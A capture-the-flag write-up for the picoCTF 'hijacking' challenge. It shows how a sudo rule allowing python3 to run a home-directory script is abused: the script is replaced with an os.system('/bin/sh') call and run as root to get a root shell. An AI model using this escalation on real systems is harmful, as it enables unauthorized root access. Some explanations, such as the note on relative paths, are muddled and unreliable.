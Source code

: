 # Challange Info

Name : hijacking

Difficulty : Medium

Category : Binary Exploitation

Link : https://play.picoctf.org/practice/challenge/352?category=6&page=2

`Note : I will suggest look for other writeups as well. As this is not the intended way to solve the challange. The intended writeup will help with better understanding of python and it's libraries and how it works.`

Suggested writeup : https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/hijacking/hijacking.md

# Writeup

The challange provides SSH details.

Logging in via ssh.

```bash
ssh picoctf@saturn.picoctf.net -p 60826
```

Listing all files in home directory.

```bash
ls -al
```

The file which caught my eye was .server.py.

> -rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py

But as it's not writeable if we try to edit the file it will drop to picoctf user from root.

So we check if picoctf is allowed to run commands as sudo.

```bash
sudo -l
```

> User picoctf may run the following commands on challenge:
> 
>    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

We can run the python file as sudo.

Using vim to edit the file.

```bash
vim .server.py
```

Replacing file contents with following :

```python
import os
os.system("/bin/sh")
```

`Note : We have to use vim as it allows file to drop from root to picoctf and nano is not avalaible on the server`

In order to exit vim.

```bash
wq!
q!
```

This will give error but when we quit vim we'll get the file dropped from root to picoctf user it dosen't matter as we can anyway run the file as root user via sudo.

Running the python script as sudo. 

`Note : That the allowed config uses relative path for .server.py so we also have to do the same or it'll give us error that we are not allowed to execute the file. For python3 it gets the relative path from PATH variable.`

```bash
sudo python3 /home/picoctf/.server.py
```

We get root shell.

Navigating to /root and listing all files.

```bash
cd /root
ls -al
```

> -rw-r--r-- 1 root root   43 Sep 26 19:29 .flag.txt
